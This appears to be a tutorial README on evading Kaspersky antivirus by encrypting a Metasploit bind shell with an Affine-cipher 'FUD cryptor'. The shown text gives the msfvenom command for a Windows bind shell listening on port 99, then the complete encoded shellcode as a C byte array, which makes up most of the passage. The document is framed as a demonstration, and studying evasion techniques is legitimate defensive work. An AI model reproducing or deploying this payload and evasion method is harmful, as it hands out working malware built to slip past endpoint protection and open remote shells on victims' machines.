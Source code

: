 ## AV bypass using a fully undetectable cryptor

<p align="justify">
For this exercise we will be using a bind shell generated from metasploit framework. The bind shell will be encrypted using a FUD Cryptor. Furthermore, the encryption algorithm used in this example is the <a href="https://en.wikipedia.org/wiki/Affine_cipher">Affine cipher</a>. At this point it is worth mentioning that there is no need to use a complicated algorithm such as AES to encrypt the payload, because satisfying results can also be achieved using lightweight encryption. Later on, the FUD payload will be parsed from a STUB program in order to decrypt it and execute it on runtime.
</p>


<p align="justify">
After the short introduction above, it is time for me to start the practical demonstration and proof of concept regarding the use of a fully undetectable cryptor, to evade the AV engine in Kaspersky Endpoint Security software. For this demonstration i needed a shellcode which could normally be considered to be a malware, so as previously mentioned, i've used a bind shell that listens on port <b>99</b> and was generated from <b>msfvenom</b> tool as follows
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~</b></span>$ msfvenom -p windows/shell_bind_tcp LPORT=99 -f C -v code -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of c file: 1517 bytes
unsigned char code[] =
"\xba\x8f\xa2\x98\x34\xd9\xca\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x53\x31\x50\x12\x83\xe8\xfc\x03\xdf\xac\x7a\xc1\x23\x58\xf8"
"\x2a\xdb\x99\x9d\xa3\x3e\xa8\x9d\xd0\x4b\x9b\x2d\x92\x19\x10"
"\xc5\xf6\x89\xa3\xab\xde\xbe\x04\x01\x39\xf1\x95\x3a\x79\x90"
"\x15\x41\xae\x72\x27\x8a\xa3\x73\x60\xf7\x4e\x21\x39\x73\xfc"
"\xd5\x4e\xc9\x3d\x5e\x1c\xdf\x45\x83\xd5\xde\x64\x12\x6d\xb9"
"\xa6\x95\xa2\xb1\xee\x8d\xa7\xfc\xb9\x26\x13\x8a\x3b\xee\x6d"
"\x73\x97\xcf\x41\x86\xe9\x08\x65\x79\x9c\x60\x95\x04\xa7\xb7"
"\xe7\xd2\x22\x23\x4f\x90\x95\x8f\x71\x75\x43\x44\x7d\x32\x07"
"\x02\x62\xc5\xc4\x39\x9e\x4e\xeb\xed\x16\x14\xc8\x29\x72\xce"
"\x71\x68\xde\xa1\x8e\x6a\x81\x1e\x2b\xe1\x2c\x4a\x46\xa8\x38"
"\xbf\x6b\x52\xb9\xd7\xfc\x21\x8b\x78\x57\xad\xa7\xf1\x71\x2a"
"\xc7\x2b\xc5\xa4\x36\xd4\x36\xed\xfc\x80\x66\x85\xd5\xa8\xec"
"\x55\xd9\x7c\x98\x5d\x7c\x2f\xbf\xa0\x3e\x9f\x7f\x0a\xd7\xf5"
"\x8f\x75\xc7\xf5\x45\x1e\x60\x08\x66\x20\x12\x85\x80\x4a\xc4"
"\xc3\x1b\xe2\x26\x30\x94\x95\x59\x12\x8c\x31\x11\x74\x0b\x3e"
"\xa2\x52\x3b\xa8\x29\xb1\xff\xc9\x2d\x9c\x57\x9e\xba\x6a\x36"
"\xed\x5b\x6a\x13\x85\xf8\xf9\xf8\x55\x76\xe2\x56\x02\xdf\xd4"
"\xae\xc6\xcd\x4f\x19\xf4\x0f\x09\x62\xbc\xcb\xea\x6d\x3d\x99"
"\x57\x4a\x2d\x67\x57\xd6\x19\x37\x0e\x80\xf7\xf1\xf8\x62\xa1"
"\xab\x57\x2d\x25\x2d\x94\xee\x33\x32\xf1\x98\xdb\x83\xac\xdc"
"\xe4\x2c\x39\xe9\x9d\x50\xd9\x16\x74\xd1\xe9\x5c\xd4\x70\x62"
"\x39\x8d\xc0\xef\xba\x78\x06\x16\x39\x88\xf7\xed\x21\xf9\xf2"
"\xaa\xe5\x12\x8f\xa3\x83\x14\x3c\xc3\x81";
</pre>
